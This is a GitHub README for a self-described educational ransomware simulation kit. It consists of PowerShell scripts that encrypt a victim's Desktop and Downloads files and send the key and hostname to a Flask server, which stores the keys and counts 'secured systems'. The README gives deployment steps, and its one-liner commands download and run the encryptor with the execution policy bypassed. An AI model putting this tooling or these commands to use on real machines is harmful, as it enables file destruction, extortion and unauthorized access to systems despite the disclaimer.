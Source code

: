 # **Ransomware Simulation Scripts**

**⚠️ IMPORTANT NOTICE: THIS PROJECT IS PURELY FOR EDUCATIONAL PURPOSES ONLY. IT SIMULATES A RANSOMWARE-LIKE ENCRYPTION AND DECRYPTION PROCESS TO HELP USERS UNDERSTAND ENCRYPTION, DECRYPTION, AND SECURE COMMUNICATION. DO NOT USE THIS PROJECT MALICIOUSLY OR WITHOUT PROPER AUTHORIZATION. THE AUTHORS ARE NOT RESPONSIBLE FOR ANY MISUSE OF THIS SOFTWARE. ⚠️**


> this only works on Windows Machine. traffic is unencrypted.
---

## **Overview**

The project consists of the following components:

1. **`encryptor.ps1`**:
   - Encrypts files in specified folders (e.g., Desktop, Downloads).
   - Renames encrypted files with a `.secured` extension.
   - Sends the encryption key and system hostname to the server.

2. **`decryptor.ps1`**:
   - Decrypts files with the `.secured` extension.
   - Restores the original file names.

3. **`server.py`**:
   - Acts as a central server to store encryption keys and hostnames.
   - Serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.
   - Displays a webpage with one-liner commands for encryption and decryption.

4. **`codegen.py`**:
   - Dynamically generates the `encryptor.ps1` and `decryptor.ps1` scripts.
   - Embeds the server's IP address into the scripts.

---

## **Prerequisites**

### **1. Python Environment**
- Install Python 3.6 or higher.
- Install required Python libraries:
  ```bash
  pip install flask
  ```

### **2. PowerShell**
- Ensure PowerShell is installed on the target machine.
- Run PowerShell as an Administrator to avoid permission issues.

### **3. Network Setup**
- Ensure the server machine and client machines are on the same network.
- Allow communication on the server's port (default: `8000`).

---

## **Setup Instructions**

### **Step 1: Generate Scripts**
Run the `codegen.py` script to generate the `encryptor.ps1` and `decryptor.ps1` scripts:
```bash
python codegen.py
```
- By default, the script detects the server's IP address automatically.
- Alternatively, specify the server's IP manually:
  ```bash
  python codegen.py --ip <SERVER_IP>
  ```

### **Step 2: Start the Server**
Run the `server.py` script to start the server:
```bash
python server.py
```
- The server will display its IP address and port (e.g., `http://192.168.0.104:8000`).
- Access the server's IP in a browser to view the webpage with one-liner commands.

### **Step 3: Deploy Scripts**
- Place the generated `encryptor.ps1` and `decryptor.ps1` scripts in the parent directory of the server script.
- Ensure the server can serve these files when accessed via HTTP.

---

## **Usage Instructions**

### **1. Encryption**
Run the `encryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\encryptor.ps1
```
- The script will:
  - Encrypt files in the specified folders (e.g., Desktop, Downloads).
  - Rename encrypted files with a `.secured` extension.
  - Send the encryption key and system hostname to the server.

### **2. Decryption**
Run the `decryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\decryptor.ps1
```
- The script will:
  - Decrypt files with the `.secured` extension.
  - Restore the original file names.

### **3. One-Liner Commands**
Access the server's IP in a browser (e.g., `http://192.168.0.104:8000`) to view one-liner commands for encryption and decryption.

#### Example One-Liner for Encryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/encryptor.ps1 -OutFile encryptor.ps1; .\encryptor.ps1"
```

#### Example One-Liner for Decryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/decryptor.ps1 -OutFile decryptor.ps1; .\decryptor.ps1"
```

---

## **Server Features**

### **1. Webpage**
When you access the server's IP in a browser, you will see:
- One-liner commands for encryption and decryption.
- Statistics on the number of secured systems.

### **2. Key Storage**
The server stores encryption keys and hostnames in a file named `encryption_keys.txt`.

### **3. File Serving**
The server serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.

---

## **Troubleshooting**

### **1. Script Fails to Run**
- Ensure PowerShell is running with elevated privileges (as Administrator).
- Check the `encryption_log.txt` file for detailed error messages.

### **2. Files Not Encrypted**
- Verify that the files are accessible and not locked by another process.
- Ensure the script skips already encrypted files (`.secured` extension).

### **3. Server Not Accessible**
- Check the server's IP address and port.
- Ensure the firewall allows incoming connections on port `8000`.

### **4. Missing Dependencies**
- Install any missing Python libraries using `pip install <library_name>`.

---

## **Disclaimer**

This project is intended for educational purposes only. It simulates a ransomware-like behavior to help users understand encryption, decryption, and secure communication. Do not use this project maliciously or without proper authorization. The authors are not responsible for any misuse of this software.

---

<iframe width="560" height="315" src="https://www.youtube.com/embed/R0nV2_K4ncE?si=ocwBBK9pmfAovdiW" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

---

## **Contact**

For questions or feedback, please contact:
- X :[ x/anir0y](https://x.com/anir0y)
- GitHub: [github/anir0y](https://github.com/anir0y/)
